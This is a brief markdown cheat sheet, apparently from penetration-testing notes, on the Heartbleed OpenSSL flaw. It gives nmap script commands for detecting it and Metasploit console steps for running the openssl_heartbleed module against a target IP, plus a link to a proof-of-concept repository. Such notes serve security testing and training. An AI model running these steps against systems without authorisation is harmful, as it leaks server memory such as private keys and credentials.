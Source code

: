 # Heartbleed

## Overview of the Heartbleed exploit

## Detecting Heartbleed

### Nmap

Put the ssl-heartbleed.nse in your nmap scripts directory `/usr/share/nmap/scripts`

Put tls.lua in the nmap "nselib" library `/usr/share/nmap/nselib`

Run the command

> `nmap -sV -script=ssl-heartbleed <target>`

## Exploiting with Metasploit

Search for the heartbleed module

> `search heartbleed`

Use the scanner

> `use auxiliary/scanner/ssl/openssl_heartbleed`

Set Exploit option

> `set verbose true`
>
> `set rhosts [targetIP]`

Run the Exploit

> `run`

## Heartbleed PoC

[https://github.com/mpgn/heartbleed-PoC](https://github.com/mpgn/heartbleed-PoC)

